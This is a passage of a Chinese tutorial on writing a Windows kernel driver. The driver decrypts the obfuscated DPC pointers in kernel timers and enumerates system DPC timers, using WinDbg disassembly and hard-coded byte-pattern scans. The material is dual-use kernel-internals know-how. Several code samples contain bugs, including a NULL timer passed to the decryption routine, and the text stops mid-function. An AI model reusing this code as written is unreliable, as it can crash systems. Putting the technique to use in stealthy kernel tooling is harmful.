fffff803`0fc63a44 4c89442420      mov     qword ptr [rsp+20h],r8
fffff803`0fc63a49 4533c9          xor     r9d,r9d
fffff803`0fc63a4c 4533c0          xor     r8d,r8d
fffff803`0fc63a4f e80c000000      call    nt!KiSetTimerEx (fffff803`0fc63a60)
fffff803`0fc63a54 4883c438        add     rsp,38h
fffff803`0fc63a58 c3              ret
fffff803`0fc63a59 cc              int     3

kd> u nt!KiSetTimerEx l50
nt!KiSetTimerEx:
fffff803`0fc63a60 48895c2408      mov     qword ptr [rsp+8],rbx
fffff803`0fc63a65 48896c2410      mov     qword ptr [rsp+10h],rbp
fffff803`0fc63a6a 4889742418      mov     qword ptr [rsp+18h],rsi
fffff803`0fc63a6f 57              push    rdi
fffff803`0fc63a70 4154            push    r12
fffff803`0fc63a72 4155            push    r13
fffff803`0fc63a74 4156            push    r14
fffff803`0fc63a76 4157            push    r15
fffff803`0fc63a78 4883ec50        sub     rsp,50h
fffff803`0fc63a7c 488b057d0c5100  mov     rax,qword ptr [nt!KiWaitNever (fffff803`10174700)]
fffff803`0fc63a83 488bf9          mov     rdi,rcx
fffff803`0fc63a86 488b35630e5100  mov     rsi,qword ptr [nt!KiWaitAlways (fffff803`101748f0)]
fffff803`0fc63a8d 410fb6e9        movzx   ebp,r9b
fffff803`0fc63a91 4c8bac24a0000000 mov     r13,qword ptr [rsp+0A0h]
fffff803`0fc63a99 458bf8          mov     r15d,r8d
fffff803`0fc63a9c 4933f5          xor     rsi,r13
fffff803`0fc63a9f 488bda          mov     rbx,rdx
fffff803`0fc63aa2 480fce          bswap   rsi
fffff803`0fc63aa5 4833f1          xor     rsi,rcx
fffff803`0fc63aa8 8bc8            mov     ecx,eax
fffff803`0fc63aaa 48d3ce          ror     rsi,cl
fffff803`0fc63aad 4833f0          xor     rsi,rax
fffff803`0fc63ab0 440f20c1        mov     rcx,cr8
fffff803`0fc63ab4 48898c24a0000000 mov     qword ptr [rsp+0A0h],rcx
fffff803`0fc63abc b802000000      mov     eax,2
fffff803`0fc63ac1 440f22c0        mov     cr8,rax
fffff803`0fc63ac5 8b05dd0a5100    mov     eax,dword ptr [nt!KiIrqlFlags (fffff803`101745a8)]
fffff803`0fc63acb 85c0            test    eax,eax
fffff803`0fc63acd 0f85b72d1a00    jne     nt!KiSetTimerEx+0x1a2e2a (fffff803`0fe0688a)
fffff803`0fc63ad3 654c8b342520000000 mov   r14,qword ptr gs:[20h]
fffff803`0fc63adc 33d2            xor     edx,edx
fffff803`0fc63ade 488bcf          mov     rcx,rdi
fffff803`0fc63ae1 e86aa2fdff      call    nt!KiCancelTimer (fffff803`0fc3dd50)
fffff803`0fc63ae6 440fb6e0        movzx   r12d,al
fffff803`0fc63aea 48897730        mov     qword ptr [rdi+30h],rsi
fffff803`0fc63aee 33c0            xor     eax,eax
fffff803`0fc63af0 44897f3c        mov     dword ptr [rdi+3Ch],r15d
fffff803`0fc63af4 8b0f            mov     ecx,dword ptr [rdi]
fffff803`0fc63af6 4889442430      mov     qword ptr [rsp+30h],rax
fffff803`0fc63afb 894c2430        mov     dword ptr [rsp+30h],ecx
fffff803`0fc63aff 488bcb          mov     rcx,rbx
fffff803`0fc63b02 48c1e920        shr     rcx,20h
fffff803`0fc63b06 4889442438      mov     qword ptr [rsp+38h],rax
fffff803`0fc63b0b 4889442440      mov     qword ptr [rsp+40h],rax
fffff803`0fc63b10 40886c2431      mov     byte ptr [rsp+31h],bpl
fffff803`0fc63b15 85c9            test    ecx,ecx
fffff803`0fc63b17 0f89c0000000    jns     nt!KiSetTimerEx+0x17d (fffff803`0fc63bdd)
fffff803`0fc63b1d 33c9            xor     ecx,ecx
fffff803`0fc63b1f 8bd1            mov     edx,ecx
fffff803`0fc63b21 40f6c5fc        test    bpl,0FCh
fffff803`0fc63b25 0f85a3000000    jne     nt!KiSetTimerEx+0x16e (fffff803`0fc63bce)
fffff803`0fc63b2b 48894c2420      mov     qword ptr [rsp+20h],rcx
fffff803`0fc63b30 48b80800000080f7ffff mov rax,0FFFFF78000000008h
fffff803`0fc63b3a 4d8bc5          mov     r8,r13
fffff803`0fc63b3d 488b00          mov     rax,qword ptr [rax]
fffff803`0fc63b40 804c243340      or      byte ptr [rsp+33h],40h
fffff803`0fc63b45 482bc3          sub     rax,rbx
fffff803`0fc63b48 48894718        mov     qword ptr [rdi+18h],rax
fffff803`0fc63b4c 4803c2          add     rax,rdx
fffff803`0fc63b4f 48c1e812        shr     rax,12h
fffff803`0fc63b53 488bd7          mov     rdx,rdi
fffff803`0fc63b56 440fb6c8        movzx   r9d,al
fffff803`0fc63b5a 44884c2432      mov     byte ptr [rsp+32h],r9b
fffff803`0fc63b5f 8b442430        mov     eax,dword ptr [rsp+30h]
fffff803`0fc63b63 8907            mov     dword ptr [rdi],eax
fffff803`0fc63b65 894f04          mov     dword ptr [rdi+4],ecx
fffff803`0fc63b68 498bce          mov     rcx,r14
fffff803`0fc63b6b e8209ffdff      call    nt!KiInsertTimerTable (fffff803`0fc3da90)
fffff803`0fc63b70 84c0            test    al,al
fffff803`0fc63b72 0f8495000000    je      nt!KiSetTimerEx+0x1ad (fffff803`0fc63c0d)
fffff803`0fc63b78 f7058608510000000200 test dword ptr [nt!PerfGlobalGroupMask+0x8 (fffff803`10174408)],20000h
fffff803`0fc63b82 0f852f2d1a00    jne     nt!KiSetTimerEx+0x1a2e57 (fffff803`0fe068b7)
fffff803`0fc63b88 f081277fffffff  lock and dword ptr [rdi],0FFFFFF7Fh
fffff803`0fc63b8f 488b8424a0000000 mov     rax,qword ptr [rsp+0A0h]
fffff803`0fc63b97 4533c9          xor     r9d,r9d
fffff803`0fc63b9a 33d2            xor     edx,edx
fffff803`0fc63b9c 88442420        mov     byte ptr [rsp+20h],al
fffff803`0fc63ba0 498bce          mov     rcx,r14
fffff803`0fc63ba3 458d4101        lea     r8d,[r9+1]
fffff803`0fc63ba7 e8044efeff      call    nt!KiExitDispatcher (fffff803`0fc489b0)
```
如上汇编代码`KiSetTimerEx`中就是DPC加密细节，如果需要解密只需要逆操作即可，此处我就具体分析下加密细节，分析这个东西我建议你使用记事本带着色的。

分析思路是这样的，首先这里要传入待加密的DPC数据，然后经过`KiWaitNever`和`KiWaitAlways`对数据进行`xor,ror,bswap`等操作。



将如上所示的汇编解密流程通过C语言的方式实现，解密函数`DPC_Print`过程可以被总结为如下几个流程：

 - 首先获取定时器结构体中`Dpc`成员的地址，将其转换为`ULONG_PTR`类型的指针`ptrDpc`。

 - 然后将`ptrDpc`异或上一个常量`p2dq(ptrKiWaitNever)`，这个常量是`KiWaitNever`的指针地址强制转换为`ULONG_PTR`类型后的结果，相当于异或上一个随机值来进行简单的加密。

 - 然后将`ptrDpc`循环左移`nShift`位，其中`nShift`的值为`KiWaitNever`指针值的`低8位`，即取最后一个字节。

  - 接着将`ptrDpc`异或上定时器结构体的地址，相当于对加密结果进行一个简单的混淆。然后对`ptrDpc`进行字节交换，相当于将`ptrDpc`的字节序进行翻转，以便在后面的代码中能够正确地解密DPC结构体。最后将`ptrDpc`异或上一个常量`p2dq(ptrKiWaitAlways)`，这个常量是`KiWaitAlways`的指针地址强制转换为`ULONG_PTR`类型后的结果，相当于再进行一次简单的加密。

最后，如果解密得到的DPC结构体指针`DecDpc`是一个有效的内核地址，就输出该DPC的地址和它的延迟函数地址。其中`DeferredRoutine`是KDPC结构体的一个成员，用于保存DPC的回调函数地址，将上述流程通过代码方式实现则如下所示；
```c
#include <ntddk.h>
#include <ntstrsafe.h>

// 解密DPC
void DPC_Print(PKTIMER ptrTimer)
{
  ULONG_PTR ptrDpc = (ULONG_PTR)ptrTimer->Dpc;
  KDPC* DecDpc = NULL;
  DWORD nShift = (p2dq(ptrKiWaitNever) & 0xFF);

  // _RSI->Dpc = (_KDPC *)v19;
  // _RSI = Timer;
  ptrDpc ^= p2dq(ptrKiWaitNever);        // v19 = KiWaitNever ^ v18;
  ptrDpc = _rotl64(ptrDpc, nShift);      // v18 = __ROR8__((unsigned __int64)Timer ^ _RBX, KiWaitNever);
  ptrDpc ^= (ULONG_PTR)ptrTimer;
  ptrDpc = _byteswap_uint64(ptrDpc);     // __asm { bswap   rbx }
  ptrDpc ^= p2dq(ptrKiWaitAlways);       // _RBX = (unsigned __int64)DPC ^ KiWaitAlways;
  
  // real DPC
  if (MmIsAddressValid((PVOID)ptrDpc))
  {
    DecDpc = (KDPC*)ptrDpc;
    DbgPrint("DPC = %p | routine = %p \n", DecDpc, DecDpc->DeferredRoutine);
  }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  DbgPrint("hello lyshark.com");
  
  PKTIMER ptrTimer = NULL;
  
  DPC_Print(ptrTimer);

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

接着将这些功能通过代码实现，首先得到我们需要的函数地址，这些地址包括。
```c
ULONG_PTR ptrKiProcessorBlock = 0xfffff80770a32cc0;
ULONG_PTR ptrOffsetKTimerTable = 0x3680;
ULONG_PTR ptrKiWaitNever = 0xfffff80770a316f8;
ULONG_PTR ptrKiWaitAlways = 0xfffff80770a318e8;
```

此处我把它分为三步走，第一步找到`KiProcessorBlock`函数地址，第二步找到`KeSetTimer`并从里面寻找`KeSetTimerEx`，第三步根据`KiSetTimerEx`地址，搜索到`KiWaitNever(),KiWaitAlways()`这两个函数内存地址，最终循环链表并解密DPC队列。

**第一步：** 找到`KiProcessorBlock`函数地址，该地址可通过`__readmsr()`寄存器相加偏移得到。

在WinDBG中可以输入`rdmsr c0000082`得到MSR地址。



`MSR寄存器`使用`代码获取`也是很容易，只要找到MSR地址在加上`0x20`即可得到`KiProcessorBlock`的地址了。

```c
/*
  lyshark.com 0: kd> dp !KiProcessorBlock
  fffff807`70a32cc0  fffff807`6f77c180 ffffbe81`3cee0180
  fffff807`70a32cd0  00000000`00000000 00000000`00000000
  fffff807`70a32ce0  00000000`00000000 00000000`00000000
  fffff807`70a32cf0  00000000`00000000 00000000`00000000
  fffff807`70a32d00  00000000`00000000 00000000`00000000
  fffff807`70a32d10  00000000`00000000 00000000`00000000
  fffff807`70a32d20  00000000`00000000 00000000`00000000
  fffff807`70a32d30  00000000`00000000 00000000`00000000
*/

#include <ntddk.h>
#include <ntstrsafe.h>

// 得到KiProcessorBlock地址
ULONG64 GetKiProcessorBlock()
{
  ULONG64 PrcbAddress = 0;
  PrcbAddress = (ULONG64)__readmsr(0xC0000101) + 0x20;

  if (PrcbAddress != 0)
  {
    // PrcbAddress 是一个地址 这个地址存放了某个 CPU 的 _KPRCB 的地址
    return *(ULONG_PTR*)PrcbAddress;
  }
  return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  DbgPrint("hello lyshark.com \n");
  
  ULONG64 address = GetKiProcessorBlock();
  if (address != 0)
  {
    DbgPrint("KiProcessorBlock = %p \n", address);
  }

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

运行后即可得到输出效果如下：



**第二步：** 找到`KeSetTimer`从里面搜索特征得到`call KeSetTimerEx`函数地址，还记得`《内核枚举IoTimer定时器》`中我们采用的特征码定位方式吗，没错本次还要使用这个方法，我们此处需要搜索到`e80c000000`这段特征。
```c
/*
  lyshark.com 0: kd> uf KeSetTimer
  nt!KeSetTimer:
  fffff807`70520a30 4883ec38        sub     rsp,38h
  fffff807`70520a34 4c89442420      mov     qword ptr [rsp+20h],r8
  fffff807`70520a39 4533c9          xor     r9d,r9d
  fffff807`70520a3c 4533c0          xor     r8d,r8d
  fffff807`70520a3f e80c000000      call    nt!KiSetTimerEx (fffff807`70520a50)
  fffff807`70520a44 4883c438        add     rsp,38h
  fffff807`70520a48 c3              ret
*/

#include <ntddk.h>
#include <ntstrsafe.h>

// 得到KiProcessorBlock地址
ULONG64 GetKeSetTimerEx()
{
  // 获取 KeSetTimer 地址
  ULONG64 ul_KeSetTimer = 0;
  UNICODE_STRING  uc_KeSetTimer = { 0 };
  RtlInitUnicodeString(&uc_KeSetTimer, L"KeSetTimer");
  ul_KeSetTimer = (ULONG64)MmGetSystemRoutineAddress(&uc_KeSetTimer);
  if (ul_KeSetTimer == 0)
  {
    return 0;
  }

  // 前 30 字节找 call 指令
  BOOLEAN b_e8 = FALSE;
  ULONG64 ul_e8Addr = 0;

  for (INT i = 0; i < 30; i++)
  {
    // 验证地址是否可读写
    if (!MmIsAddressValid((PVOID64)ul_KeSetTimer))
    { 
      continue;
    }

    // e8 0c 00 00 00 call nt!KiSetTimerEx (fffff807`70520a50)
    if (*(PUCHAR)(ul_KeSetTimer + i) == 0xe8)
    {
      b_e8 = TRUE;
      ul_e8Addr = ul_KeSetTimer + i;
      break;
    }
  }

  // 找到 call 则解析目的地址
  if (b_e8 == TRUE)
  {
    if (!MmIsAddressValid((PVOID64)ul_e8Addr))
    {
      return 0;
    }

    INT ul_callCode = *(INT*)(ul_e8Addr + 1);
    ULONG64 ul_KiSetTimerEx = ul_e8Addr + ul_callCode + 5;
    return ul_KiSetTimerEx;
  }
  return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  DbgPrint("hello lyshark.com \n");

  ULONG64 address = GetKeSetTimerEx();
  if (address != 0)
  {
    DbgPrint("KeSetTimerEx = %p \n", address);
  }

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

输出寻找CALL地址效果图如下：



**第三步：** 也是最重要的一步，在`KiSetTimerEx`里面，搜索特征，拿到里面的`KiWaitNever(),KiWaitAlways()`这两个函数地址。

 - 488b05850c5100 KiWaitNever
 - 488b356b0e5100 KiWaitAlways

这个过程需要重复搜索，所以要把第一步和第二部过程归纳起来，具体代码如下所示。
```c
/*
  0: kd> uf KiSetTimerEx
  nt!KiSetTimerEx:
  fffff807`70520a50 48895c2408      mov     qword ptr [rsp+8],rbx
  fffff807`70520a55 48896c2410      mov     qword ptr [rsp+10h],rbp
  fffff807`70520a5a 4889742418      mov     qword ptr [rsp+18h],rsi
  fffff807`70520a5f 57              push    rdi
  fffff807`70520a60 4154            push    r12
  fffff807`70520a62 4155            push    r13
  fffff807`70520a64 4156            push    r14
  fffff807`70520a66 4157            push    r15
  fffff807`70520a68 4883ec50        sub     rsp,50h
  fffff807`70520a6c 488b05850c5100  mov     rax,qword ptr [nt!KiWaitNever (fffff807`70a316f8)]
  fffff807`70520a73 488bf9          mov     rdi,rcx
  fffff807`70520a76 488b356b0e5100  mov     rsi,qword ptr [nt!KiWaitAlways (fffff807`70a318e8)]
  fffff807`70520a7d 410fb6e9        movzx   ebp,r9b
*/

#include <ntddk.h>
#include <ntstrsafe.h>

// 得到KiProcessorBlock地址
ULONG64 GetKeSetTimerEx()
{
  // 获取 KeSetTimer 地址
  ULONG64 ul_KeSetTimer = 0;
  UNICODE_STRING  uc_KeSetTimer = { 0 };
  RtlInitUnicodeString(&uc_KeSetTimer, L"KeSetTimer");
  ul_KeSetTimer = (ULONG64)MmGetSystemRoutineAddress(&uc_KeSetTimer);
  if (ul_KeSetTimer == 0)
  {
    return 0;
  }

  // 前 30 字节找 call 指令
  BOOLEAN b_e8 = FALSE;
  ULONG64 ul_e8Addr = 0;

  for (INT i = 0; i < 30; i++)
  {
    // 验证地址是否可读写
    if (!MmIsAddressValid((PVOID64)ul_KeSetTimer))
    { 
      continue;
    }

    // e8 0c 00 00 00 call nt!KiSetTimerEx (fffff807`70520a50)
    if (*(PUCHAR)(ul_KeSetTimer + i) == 0xe8)
    {
      b_e8 = TRUE;
      ul_e8Addr = ul_KeSetTimer + i;
      break;
    }
  }

  // 找到 call 则解析目的地址
  if (b_e8 == TRUE)
  {
    if (!MmIsAddressValid((PVOID64)ul_e8Addr))
    {
      return 0;
    }

    INT ul_callCode = *(INT*)(ul_e8Addr + 1);
    ULONG64 ul_KiSetTimerEx = ul_e8Addr + ul_callCode + 5;
    return ul_KiSetTimerEx;
  }
  return 0;
}

// 得到KiWaitNever地址
ULONG64 GetKiWaitNever(ULONG64 address)
{
  // 验证地址是否可读写
  if (!MmIsAddressValid((PVOID64)address))
  {
    return 0;
  }

  // 前 100 字节找 找 KiWaitNever
  for (INT i = 0; i < 100; i++)
  {
    // 48 8b 05 85 0c 51 00 | mov rax, qword ptr[nt!KiWaitNever(fffff807`70a316f8)]
    if (*(PUCHAR)(address + i) == 0x48 && *(PUCHAR)(address + i + 1) == 0x8b && *(PUCHAR)(address + i + 2) == 0x05)
    {
      ULONG64 ul_movCode = *(UINT32*)(address + i + 3);
      ULONG64 ul_movAddr = address + i + ul_movCode + 7;
      // DbgPrint("找到KiWaitNever地址: %p \n", ul_movAddr);
      return ul_movAddr;
    }
  }
  return 0;
}

// 得到KiWaitAlways地址
ULONG64 GetKiWaitAlways(ULONG64 address)
{
  // 验证地址是否可读写
  if (!MmIsAddressValid((PVOID64)address))
  {
    return 0;
  }

  // 前 100 字节找 找 KiWaitNever
  for (INT i = 0; i < 100; i++)
  {
    // 48 8b 35 6b 0e 51 00 | mov rsi,qword ptr [nt!KiWaitAlways (fffff807`70a318e8)]
    if (*(PUCHAR)(address + i) == 0x48 && *(PUCHAR)(address + i + 1) == 0x8b && *(PUCHAR)(address + i + 2) == 0x35)
    {
      ULONG64 ul_movCode = *(UINT32*)(address + i + 3);
      ULONG64 ul_movAddr = address + i + ul_movCode + 7;
      return ul_movAddr;
    }
  }
  return 0;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
  DbgPrint("卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
  DbgPrint("hello lyshark.com \n");

  ULONG64 address = GetKeSetTimerEx();
  if (address != 0)
  {
    ULONG64 KiWaitNeverAddress = GetKiWaitNever(address);
    DbgPrint("KiWaitNeverAddress = %p \n", KiWaitNeverAddress);

    ULONG64 KiWaitAlwaysAddress = GetKiWaitAlways(address);
    DbgPrint("KiWaitAlwaysAddress = %p \n", KiWaitAlwaysAddress);
  }

  Driver->DriverUnload = UnDriver;
  return STATUS_SUCCESS;
}
```

运行这个程序，我们看下寻找到的地址是否与WinDBG中找到的地址一致。




**功能实现部分：** 最后将这些功能整合在一起，循环输出链表元素，并解密元素即可实现枚举当前系统DPC定时器。

代码核心API分析：
 - KeNumberProcessors 得到CPU数量(内核常量)
 - KeSetSystemAffinityThread 线程绑定到特定CPU上
 - GetKiProcessorBlock 获得KPRCB的地址
 - KeRevertToUserAffinityThread 取消绑定CPU

解密部分提取出`KiWaitNever`和`KiWaitAlways`用于解密计算，转换`PKDPC`对象结构，并输出即可。

```c
#include <Fltkernel.h>
#include <ntddk.h>
#include <intrin.h>

#define IRP_TEST CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

UNICODE_STRING name_device;         // 设备名
UNICODE_STRING name_symbol;         // 符号链接
PDEVICE_OBJECT deviceObj;           // 设备对象

typedef struct _KTIMER_TABLE_ENTRY
{
    ULONG_PTR   Lock;
    LIST_ENTRY  Entry;
    ULONG_PTR   Time;
}KTIMER_TABLE_ENTRY, *PKTIMER_TABLE_ENTRY;

typedef struct _KTIMER_TABLE
{
    ULONG_PTR           TimerExpiry[64];
    KTIMER_TABLE_ENTRY  TimerEntries[256];
}KTIMER_TABLE, *PKTIMER_TABLE;

BOOLEAN get_KiWait(PULONG64 never, PULONG64 always)
{
    // 获取 KeSetTimer 地址
    ULONG64 ul_KeSetTimer = 0;
    UNICODE_STRING  uc_KeSetTimer = { 0 };
    RtlInitUnicodeString(&uc_KeSetTimer, L"KeSetTimer");
    ul_KeSetTimer = (ULONG64)MmGetSystemRoutineAddress(&uc_KeSetTimer);
    if (ul_KeSetTimer == NULL)
    {
        return FALSE;
    }

    // 前 30 字节找 call 指令
    BOOLEAN b_e8 = FALSE;
    ULONG64 ul_e8Addr = 0;
    for (INT i = 0; i < 30; i++)
    {
        if (!MmIsAddressValid((PVOID64)ul_KeSetTimer))
        {
            continue;
        }

        /*
        0: kd> u nt!KeSetTimer
        nt!KeSetTimer:
        fffff803`0fc63a40 4883ec38        sub     rsp,38h
        fffff803`0fc63a44 4c89442420      mov     qword ptr [rsp+20h],r8
        fffff803`0fc63a49 4533c9          xor     r9d,r9d
        fffff803`0fc63a4c 4533c0          xor     r8d,r8d
        fffff803`0fc63a4f e80c000000      call    nt!KiSetTimerEx (fffff803`0fc63a60)
        fffff803`0fc63a54 4883c438        add     rsp,38h
        fffff803`0fc63a58 c3              ret
        fffff803`0fc63a59 cc              int     3
        */

        // fffff803`0fc63a4f e8 0c 00 00 00      call    nt!KiSetTimerEx (fffff803`0fc63a60)
        if (*(PUCHAR)(ul_KeSetTimer + i) == 0xe8)
        {
            b_e8 = TRUE;
            ul_e8Addr = ul_KeSetTimer + i;
            break;
        }
    }

    // 找到 call 则解析目的地址
    /*
    0: kd> u nt!KiSetTimerEx l20
    nt!KiSetTimerEx:
    fffff803`0fc63a60 48895c2408      mov     qword ptr [rsp+8],rbx
    fffff803`0fc63a65 48896c2410      mov     qword ptr [rsp+10h],rbp
    fffff803`0fc63a6a 4889742418      mov     qword ptr [rsp+18h],rsi
    fffff803`0fc63a6f 57              push    rdi
    fffff803`0fc63a70 4154            push    r12
    fffff803`0fc63a72 4155            push    r13
    fffff803`0fc63a74 4156            push    r14
    fffff803`0fc63a76 4157            push    r15
    fffff803`0fc63a78 4883ec50        sub     rsp,50h
    fffff803`0fc63a7c 488b057d0c5100  mov     rax,qword ptr [nt!KiWaitNever (fffff803`10174700)]
    fffff803`0fc63a83 488bf9          mov     rdi,rcx
    */

    ULONG64 ul_KiSetTimerEx = 0;
    if (b_e8 == TRUE)
    {
        if (!MmIsAddressValid((PVOID64)ul_e8Addr))
        {
            return FALSE;
        }
        INT ul_callCode = *(INT*)(ul_e8Addr + 1);
        ULONG64 ul_callAddr = ul_e8Addr + ul_callCode + 5;
        ul_KiSetTimerEx = ul_callAddr;
    }

    // 没有 call 则直接在当前函数找 
    else
    {
        ul_KiSetTimerEx = ul_KeSetTimer;
    }

    // 前 50 字节找 找 KiWaitNever 和 KiWaitAlways
    /*
    0: kd> u nt!KiSetTimerEx l20
    nt!KiSetTimerEx:
    fffff803`0fc63a60 48895c2408      mov     qword ptr [rsp+8],rbx
    fffff803`0fc63a65 48896c2410      mov     qword ptr [rsp+10h],rbp
    fffff803`0fc63a6a 4889742418      mov     qword ptr [rsp+18h],rsi
    fffff803`0fc63a6f 57              push    rdi
    fffff803`0fc63a70 4154            push    r12
    fffff803`0fc63a72 4155            push    r13
    fffff803`0fc63a74 4156            push    r14
    fffff803`0fc63a76 4157            push    r15
    fffff803`0fc63a78 4883ec50        sub     rsp,50h
    fffff803`0fc63a7c 488b057d0c5100  mov     rax,qword ptr [nt!KiWaitNever (fffff803`10174700)]
    fffff803`0fc63a83 488bf9          mov     rdi,rcx
    fffff803`0fc63a86 488b35630e5100  mov     rsi,qword ptr [nt!KiWaitAlways (fffff803`101748f0)]
    */
    if (!MmIsAddressValid((PVOID64)ul_KiSetTimerEx))
    {
        return FALSE;
    }

    ULONG64 ul_arr_ret[2];          // 存放 KiWaitNever 和 KiWaitAlways 的地址
    INT i_sub = 0;                  // 对应 ul_arr_ret 的下标
    for (INT i = 0; i < 50; i++)
    {
        // // fffff803`0fc63a7c 488b057d0c5100  mov     rax,qword ptr [nt!KiWaitNever (fffff803`10174700)]
        if (*(PUCHAR)(ul_KiSetTimerEx + i) == 0x48 && *(PUCHAR)(ul_KiSetTimerEx + i + 1) == 0x8b && *(PUCHAR)(ul_KiSetTimerEx + i + 6) == 0x00)
        {
            ULONG64 ul_movCode = *(UINT32*)(ul_KiSetTimerEx + i + 3);
            ULONG64 ul_movAddr = ul_KiSetTimerEx + i + ul_movCode + 7;

            // 只拿符合条件的前两个值
            if (i_sub < 2)
            {
                ul_arr_ret[i_sub++] = ul_movAddr;
            }
        }
    }
    *never = ul_arr_ret[0];
    *always = ul_arr_ret[1];

    return TRUE;
}

BOOLEAN EnumDpc()
{
    DbgPrint("hello lyshark.com \n");

    // 获取 CPU 核心数
    INT i_cpuNum = KeNumberProcessors;
    DbgPrint("CPU核心数: %d \n", i_cpuNum);

    for (KAFFINITY i = 0; i < i_cpuNum; i++)
    {
        // 线程绑定特定 CPU
        KeSetSystemAffinityThread(i + 1);

        // 获得 KPRCB 的地址
        ULONG64 p_PRCB = (ULONG64)__readmsr(0xC0000101) + 0x20;
        if (!MmIsAddressValid((PVOID64)p_PRCB))
        {
            return FALSE;
        }

        // 取消绑定 CPU
        KeRevertToUserAffinityThread();

        // 计算 TimerTable 在 _KPRCB 结构中的偏移
        PKTIMER_TABLE p_TimeTable = NULL;

        // Windows 10 得到_KPRCB + 0x3680
        p_TimeTable = (PKTIMER_TABLE)(*(PULONG64)p_PRCB + 0x3680);

        // 遍历 TimerEntries[] 数组（大小 256）
        for (INT j = 0; j < 256; j++)
        {
            // 获取 Entry 双向链表地址
            if (!MmIsAddressValid((PVOID64)p_TimeTable))
            {
                continue;
            }

            PLIST_ENTRY p_ListEntryHead = &(p_TimeTable->TimerEntries[j].Entry);

            // 遍历 Entry 双向链表
            for (PLIST_ENTRY p_ListEntry = p_ListEntryHead->Flink; p_ListEntry != p_ListEntryHead; p_ListEntry = p_ListEntry->Flink)
            {
                // 根据 Entry 取 _KTIMER 对象地址
                if (!MmIsAddressValid((PVOID64)p_ListEntry))
                {
                    continue;
                }

                PKTIMER p_Timer = CONTAINING_RECORD(p_ListEntry, KTIMER, TimerListEntry);

                // 硬编码取 KiWaitNever 和 KiWaitAlways 
                ULONG64 never = 0, always = 0;
                if (get_KiWait(&never, &always) == FALSE)
                {
                    return FALSE;
                }

                // 获取解密前的 Dpc 对象
                if (!MmIsAddressValid((PVOID64)p_Timer))
                {
                    continue;
                }

                ULONG64 ul_Dpc = (ULONG64)p_Timer->Dpc;
                INT i_Shift = (*((PULONG64)never) & 0xFF);

                // 解密 Dpc 对象
                ul_Dpc ^= *((ULONG_PTR*)never);         // 异或
                ul_Dpc = _rotl64(ul_Dpc, i_Shift);      // 循环左移
                ul_Dpc ^= (ULONG_PTR)p_Timer;           // 异或
                ul_Dpc = _byteswap_uint64(ul_Dpc);      // 颠倒顺序
                ul_Dpc ^= *((ULONG_PTR*)always);        // 异或

                // 对象类型转换
                PKDPC p_Dpc = (PKDPC)ul_Dpc;

                // 打印验证
                if (!MmIsAddressValid((PVOID64)p_Dpc))
                {
                    continue;
                }

                DbgPrint("定时器对象：0x%p | 函数入口：0x%p | 触发周期: %d \n ", p_Timer, p_Dpc->DeferredRoutine, p_Timer->Period);
            }
        }
    }
    return TRUE;
}

// 对应 IRP_MJ_DEVICE_CONTROL
NTSTATUS myIrpControl(IN PDEVICE_OBJECT pDevObj, IN PIRP pIRP)
{

    // 获取 IRP 对应的 I/O 堆栈指针
    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(pIRP);

    // 得到输入缓冲区大小
    ULONG cbin = stack->Parameters.DeviceIoControl.InputBufferLength;

    // 得到输出缓冲区大小
    ULONG cbout = stack->Parameters.DeviceIoControl.OutputBufferLength;

    // 得到 IOCTL 码
    ULONG code = stack->Parameters.DeviceIoControl.IoControlCode;

    // 捕获 I/O 操作类型（MajorFunction）
    switch (code)
    {
    case IRP_TEST:
    {
        break;
    }
    default:
        break;
    }

    // 完成 IO 请求
    IoCompleteRequest(pIRP, IO_NO_INCREMENT);

    return STATUS_SUCCESS;
}

// 对应 IRP_MJ_CREATE 、 IRP_MJ_CLOSE
NTSTATUS dpc_CAC(IN PDEVICE_OBJECT pDevObj, IN PIRP pIRP)
{
    // 将 IRP 返回给 I/O 管理器
    IoCompleteRequest(
        pIRP,               // IRP 指针
        IO_NO_INCREMENT     // 线程优先级，IO_NO_INCREMENT ：不增加优先级
        );

    // 设置 I/O 请求状态
    pIRP->IoStatus.Status = STATUS_SUCCESS;

    // 设置 I/O 请求传输的字节数
    pIRP->IoStatus.Information = 0;

    return STATUS_SUCCESS;
}

NTSTATUS CreateDevice(IN PDRIVER_OBJECT DriverObject)
{
    // 定义返回值
    NTSTATUS status;

    // 初始化设备名
    RtlInitUnicodeString(&name_device, L"\\Device\\LySharkDriver");

    // 创建设备
    status = IoCreateDevice(
        DriverObject,                           // 指向驱动对象的指针
        0,                                      // 设备扩展分配的字节数
        &name_device,                           // 设备名
        FILE_DEVICE_UNKNOWN,                    // 设备类型
        0,                                      // 驱动设备附加信息
        TRUE,                                   // 设备对象是否独占设备
        &deviceObj                              // 设备对象指针 
        );

    if (!NT_SUCCESS(status))
    {
        return status;
    }

    // 初始化符号链接名
    RtlInitUnicodeString(&name_symbol, L"\\??\\LySharkDriver");

    // 创建符号链接
    status = IoCreateSymbolicLink(&name_symbol, &name_device);
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    return STATUS_SUCCESS;
}

NTSTATUS DriverUnload(IN PDRIVER_OBJECT DriverObject)
{
    // 定义返回值
    NTSTATUS status;

    // 删除符号链接
    status = IoDeleteSymbolicLink(&name_symbol);
    if (!NT_SUCCESS(status))
    {
        return status;
    }

    // 删除设备
    IoDeleteDevice(deviceObj);

    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath)
{
    // 定义返回值
    NTSTATUS status;

    // 指定驱动卸载函数
